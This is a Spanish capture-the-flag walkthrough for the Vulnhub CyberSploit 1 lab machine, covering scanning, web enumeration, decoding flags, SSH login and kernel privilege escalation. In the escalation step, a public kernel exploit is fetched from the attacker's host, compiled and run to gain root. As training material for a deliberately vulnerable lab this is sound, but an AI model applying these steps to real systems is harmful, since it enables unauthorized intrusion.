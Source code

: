 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=F7F400&width=480&height=80&lines=CYBERSPLOIT_1"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/cybersploit-1,506/


<h1 align="center"><img src="https://user-images.githubusercontent.com/75953873/174417901-a2431e6b-3849-46e3-a0e4-ed3f8ed73e85.png"></h1>

</br>

- *Paso 1:* Identificar la IP de la máquina host con NetDiscover. 
```
netdiscover -i wlan0 -r 192.168.1/24
```
![1](https://user-images.githubusercontent.com/75953873/174458235-8b46f051-22c5-4c9e-a193-a21d2b15f82a.png)

IP host: `192.168.1.5`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.1.5
```
![2](https://user-images.githubusercontent.com/75953873/174458274-1cbb9500-5deb-43d7-a58c-1fa3ba579cc9.png)

Puertos abiertos: [22,80]

- *Paso 3:* Detección de servicios y sistema operativo. 
```
nmap -p 22,80 -A 192.168.1.5
```
![3](https://user-images.githubusercontent.com/75953873/174458453-68bb619f-8c2c-4657-a337-ae7bdbdb0fd3.png)

Servidor corriendo: **HTTP Apache**

![4](https://user-images.githubusercontent.com/75953873/174458587-9dc99104-e733-4167-a77e-5637aa484cde.png)

- *Paso 4:* Enumerar archivos web con Dirb.
```
dirb http://192.168.1.5 -w /usr/share/dirb/wordlists/common.txt
```
![5](https://user-images.githubusercontent.com/75953873/174458681-2f5b9ac3-cf49-4484-8fa4-ecba37570950.png)

Archivo: `robots.txt`

Mostrar contenido del archivo con Curl:
```
curl http://192.168.1.5/robots.txt
```

Mensaje ofuscado a base64: `R29vZCBXb3JrICEKRmxhZzE6IGN5YmVyc3Bsb2l0e3lvdXR1YmUuY29tL2MvY3liZXJzcGxvaXR9`

![6](https://user-images.githubusercontent.com/75953873/174458725-43cc2b76-f495-443a-ac4d-83aacd133f9a.png)

Decodificar mensaje con Bash:
```
echo 'R29vZCBXb3JrICEKRmxhZzE6IGN5YmVyc3Bsb2l0e3lvdXR1YmUuY29tL2MvY3liZXJzcGxvaXR9' | base64 --decode
```
![7](https://user-images.githubusercontent.com/75953873/174458797-e0ceea57-dcf1-4b3b-954c-b2dfaf1fd074.png)

- *Paso 5:* Conectarse al servidor SSH. 

**_CREDENCIALES SSH_**

Usuario: `itsskv`

Contraseña (**FLAG_1**): `cybersploit{youtube.com/c/cybersploit}`

```
ssh itsskv@192.168.1.5
```
![8](https://user-images.githubusercontent.com/75953873/174458910-2ecb3d1a-a76b-46b6-a51f-e14cc1e849b6.png)

Capturar la segunda flag:
```
cat /home/itsskv/flag2.txt
```
![9](https://user-images.githubusercontent.com/75953873/174458939-30736126-e294-4d22-85ae-f074f4b3f566.png)

Flag ofuscada en código binario: `01100111 01101111 01101111 01100100 00100000 01110111 01101111 01110010 01101011 00100000 00100001 00001010 01100110 01101100 01100001 01100111 00110010 00111010 00100000 01100011 01111001 01100010 01100101 01110010 01110011 01110000 01101100 01101111 01101001 01110100 01111011 01101000 01110100 01110100 01110000 01110011 00111010 01110100 00101110 01101101 01100101 00101111 01100011 01111001 01100010 01100101 01110010 01110011 01110000 01101100 01101111 01101001 01110100 00110001 01111101`

- *Paso 6:* Decodificar binario.

ONLINE: https://www.online-toolz.com/langs/es/tool-es-text-binary-convertor.html

![10](https://user-images.githubusercontent.com/75953873/174459040-d0e1d032-167b-464b-a9c4-d3aa8d57753d.png)

**FLAG_2**: cybersploit{https:t.me/cybersploit1}

- *Paso 7:* Escalar privilegios: buscar exploit con Searchsploit.

Versión del kernel: `3.13.0-32`

![12](https://user-images.githubusercontent.com/75953873/174459381-dc60d2c4-1bd2-426e-a9b5-2bb4dc27ab37.png)

```
searchsploit 3.13.0
```
![11](https://user-images.githubusercontent.com/75953873/174459391-4ab3d7ee-c30f-4ee0-9e95-76c82dac1e10.png)

Descargar exploit:
```
searchsploit -m 37292
```
![13](https://user-images.githubusercontent.com/75953873/174459424-5bc7b440-01e0-4331-8597-e7dcc4da51c1.png)

Abrir un servidor local en el puerto 80 con Python3:
```
python3 -m http.server 80
```
![14](https://user-images.githubusercontent.com/75953873/174459453-de8a70d0-36c7-4238-b8eb-bac90a4a891e.png)

Descargar exploit en el directorio `/tmp`; compilar y dar permisos de escritrura, lectura y ejecucción:
```
cd /tmp
wget http://192.168.1.9/37292.c
gcc 37292.c -o kernel
chmod 777 kernel
```
![15](https://user-images.githubusercontent.com/75953873/174459564-3b68a9b2-1d9f-4bcf-8689-a2f0afe3d4f5.png)

Por último, explotar el kernel `./kernel` y capturar la key (flag) del fichero `finalflag.txt` dentro del directorio `/root`:
```
./kernel
cd /root
cat finalflag.txt
```
![16](https://user-images.githubusercontent.com/75953873/174459618-e2feb3f3-dca2-4041-ba44-0272c063c7dd.png)

**FLAG_3**: cybersploit{Z3X21CW42C4 many many congratulations !}
